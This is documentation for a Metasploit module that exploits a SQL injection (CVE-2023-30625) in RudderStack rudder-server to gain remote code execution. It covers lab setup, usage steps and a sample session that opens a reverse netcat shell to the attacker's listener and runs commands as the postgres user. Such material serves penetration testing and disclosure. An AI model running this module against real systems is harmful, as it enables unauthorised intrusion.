 ## Vulnerable Application

RudderStack is an open-source Customer Data Platform (CDP) that helps organizations collect,
unify, and route customer data to various destinations.
A Customer Data Platform is a software system that centralizes and manages customer data from multiple sources,
providing a unified view of customer interactions and behaviors.
RudderStack is an independent, stand-alone system with a dependency only on the database (PostgreSQL).
Its backend is written in Go with a rich UI written in React.js.

This Metasploit exploit module targets a SQL injection vulnerability (CVE-2023-30625) in RudderStack's `rudder-server`,
an open-source Customer Data Platform (CDP). The vulnerability affects versions of `rudder-server` before 1.3.0-rc.1.
By exploiting this flaw, an attacker can execute arbitrary SQL commands,
potentially leading to Remote Code Execution (RCE) since the `rudder` role in PostgreSQL has superuser permissions by default.
This issue was discovered and reported by GHSL team member @Kwstubbs (Kevin Stubbings).
Check [here](https://securitylab.github.com/advisories/GHSL-2022-097_rudder-server/) for full disclosure writeup.

**Note: The backend code of rudder-server is written with Golang and can also be compiled for Windows.
Due to the insufficient build instructions for Windows platforms, the Windows target is disabled in this exploit module.**

## Testing
For installing the vulnerable version follow the steps below,
1. Download [docker-compose.yml](https://raw.githubusercontent.com/rudderlabs/rudder-server/master/rudder-docker.yml) file.
2. Replace `<your_workspace_token>` in this file with your workspace workspace-token
Check [here](https://www.rudderstack.com/docs/get-started/rudderstack-open-source/data-plane-setup/docker/#workspace-token)
for obtaining workspace-token.
3. Edit `rudder-server:latest` version as `rudder-server:1.2.5` inside the docker-compose.yml file.
4. Run `docker compose -f rudder-docker.yml up -d`

After these steps the rudder-server API will be exposed on the `http://localhost:8080/` address.

## Verification Steps

1. msfconsole
2. Do: `use exploit/multi/http/rudder_server_sqli_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`
6. You should get a shell.

## Options

## Scenarios

```
msf6 > use exploit/multi/http/rudder_server_sqli_rce 
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(multi/http/rudder_server_sqli_rce) > set rhosts 192.168.1.20
rhosts => 192.168.1.20
msf6 exploit(multi/http/rudder_server_sqli_rce) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf6 exploit(multi/http/rudder_server_sqli_rce) > set lport 4444
lport => 4444
msf6 exploit(multi/http/rudder_server_sqli_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. ForceExploit is enabled, proceeding with exploitation.
[*] Detected rudder version: Unknown
[*] Triggering RCE via crafted SQL query...
id
uid=70(postgres) gid=70(postgres) groups=70(postgres),70(postgres)

```
